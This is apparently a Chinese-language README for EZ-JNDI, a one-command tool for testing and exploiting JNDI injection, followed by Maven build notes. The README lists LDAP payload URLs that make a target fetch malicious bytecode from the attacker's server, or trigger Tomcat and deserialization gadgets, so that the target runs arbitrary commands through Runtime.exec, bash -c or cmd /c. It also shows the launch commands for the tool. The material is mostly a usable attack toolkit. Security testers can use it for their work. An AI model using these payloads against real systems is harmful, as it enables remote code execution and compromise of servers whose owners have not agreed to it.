

# EZ-JNDI
一键启动JNDI测试/利用环境，目录中的 `ezjndi1.0.jar` 是已经编译好的 jar 包

LDAP Payload：
```text
ldap://{IP}:{Port}/Sim --> 利用远程CodeBase加载恶意字节码执行命令，使用 Runtime.getRuntime().exec("{command}") 直接执行命令，Windows和Linux环境通用，执行复杂命令请将命令base64编码或使用下面的payload
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令，其方式为 "bash -c {command}"（Linux）或 "cmd /c {command}"（Windows），恶意字节码会自己判断系统类型并执行对应命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令，目前只支持Linux环境
ldap://{IP}:{Port}/RS/{gadget_name} --> LDAP服务直接返回序列化数据，并使用指定Gadget执行命令，目前只支持Linux环境

可用Gadget：cck1 ｜ cck3 | todo...
```


LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

使用截图：




TODO:
- 支持动态执行命令，如`ldap://{IP}:{Port}/Foo/{command}`
- 增加gadget
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```
另外，编译的时候请跳过测单元测试：
```text
maven clean package -Dmaven.skip.test=true
```